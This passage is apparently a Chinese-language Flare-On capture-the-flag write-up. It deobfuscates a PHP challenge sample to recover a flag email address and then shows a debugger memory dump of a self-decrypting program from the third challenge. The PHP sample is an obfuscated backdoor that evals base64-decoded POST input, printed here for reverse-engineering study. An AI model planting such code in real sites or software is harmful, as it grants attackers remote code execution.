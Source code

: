 将`$do_me`输出并格式化:

```
$_= \'aWYoaXNzZXQoJF9QT1NUWyJcOTdcNDlcNDlcNjhceDRGXDg0XDExNlx4NjhcOTdceDc0XHg0NFx4NEZceDU0XHg2QVw5N1x4NzZceDYxXHgzNVx4NjNceDcyXDk3XHg3MFx4NDFcODRceDY2XHg2Q1w5N1x4NzJceDY1XHg0NFw2NVx4NTNcNzJcMTExXDExMFw2OFw3OVw4NFw5OVx4NkZceDZEIl0pKSB7IGV2YWwoYmFzZTY0X2RlY29kZSgkX1BPU1RbIlw5N1w0OVx4MzFcNjhceDRGXHg1NFwxMTZcMTA0XHg2MVwxMTZceDQ0XDc5XHg1NFwxMDZcOTdcMTE4XDk3XDUzXHg2M1wxMTRceDYxXHg3MFw2NVw4NFwxMDJceDZDXHg2MVwxMTRcMTAxXHg0NFw2NVx4NTNcNzJcMTExXHg2RVx4NDRceDRGXDg0XDk5XHg2Rlx4NkQiXSkpOyB9\';
$__=\'JGNvZGU9YmFzZTY0X2RlY29kZSgkXyk7ZXZhbCgkY29kZSk7\';
$___="\x62\141\x73\145\x36\64\x5f\144\x65\143\x6f\144\x65";
eval($___($__));

```

OK, 解析`$___`和`$__`:

```
$___ = "base64_decode"
$__ = "$code=base64_decode($_);eval($code);"

```

按照要求将变量`$_`按照 BASE64 解码:

```
if(isset($_POST["\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D"])) { eval(base64_decode($_POST["\97\49\x31\68\x4F\x54\116\104\x61\116\x44\79\x54\106\97\118\97\53\x63\114\x61\x70\65\84\102\x6C\x61\114\101\x44\65\x53\72\111\x6E\x44\x4F\84\99\x6F\x6D"])); }

```

字符串`\97\49\49\68\x4F\84\116\x68\97\x74\x44\x4F\x54\x6A\97\x76\x61\x35\x63\x72\97\x70\x41\84\x66\x6C\97\x72\x65\x44\65\x53\72\111\110\68\79\84\99\x6F\x6D`为: a11DOTthatDOTjava5crapATflareDASHonDOTcom

替换大写字母:

```
a11.that.java5crap@flare-on.com

```

注意: 是`a11`(数字11) 而不是`all`.

* * *

第三题
---

这个就是传说中的混淆/免杀/反逆向??? 这个程序在 IDA 中只能看到一个长长的赋值/重写程序的代码. 拖到OD中, 发现程序在运行时不断的解密/重写程序, 最终在内存中生成邮箱地址并弹窗.

```
0012FD21  42 72 6F 6B 65 6E 42 79 74 65 00 E6 FE 12 00 61  BrokenByte.纩.a
0012FD31  61 61 61 61 61 6E 64 20 69 27 6D 20 73 70 65 6E  aaaaand i'm spen
0012FD41  74 00 00 7C FE 12 00 6F 6D 67 20 69 73 20 69 74  t..|?.omg is it
0012FD51  20 61 6C 6D 6F 73 74 20 6F 76 65 72 3F 21 3F 29   almost over?!?)
0012FD61  FE 12 00 C6 FD 12 00 6E 6F 70 61 73 61 75 72 75  ?.讫.nopasauru
0012FD71  73 00 00 84 FD 12 00 9D 24 40 00 90 B2 23 E8 00  s..匌.?@.惒#?
0012FD81  00 00 00 8B 34 24 83 C6 1C B9 DF 01 00 00 83 F9  ...?$兤惯..凒

0012FD91  00 74 07 80 36 66 46 49 EB F4 E9 10 00 00 00 61  .t€6fFI媵?...a
0012FDA1  6E 64 20 73 6F 20 69 74 20 62 65 67 69 6E 73 68  nd so it beginsh
0012FDB1  75 73 00 00 68 73 61 75 72 68 6E 6F 70 61 89 E3  us..hsaurhnopa夈
0012FDC1  E8 00 00 00 00 8B 34 24 83 C6 2D 89 F1 81 C1 8C  ?...?$兤-夞伭

0012FDD1  01 00 00 89 D8 83 C0 0A 39 D8 75 05 89 E3 83 C3  ..壺兝.9豼夈兠
0012FDE1  04 39 CE 74 08 8A 13 30 16 43 46 EB EB E9 31 00  9蝨?0CF腚?.
0012FDF1  00 00 67 65 74 20 72 65 61 64 79 20 74 6F 20 67  ..get ready to g
0012FE01  65 74 20 6E 6F 70 27 65 64 20 73 6F 20 64 61 6D  et nop'ed so dam
0012FE11  6E 20 68 61 72 64 20 69 6E 20 74 68 65 20 70 61  n hard in the pa
0012FE21  69 6E 74 E8 00 00 00 00 8B 34 24 83 C6 1E B9 38  int?...?$兤?
```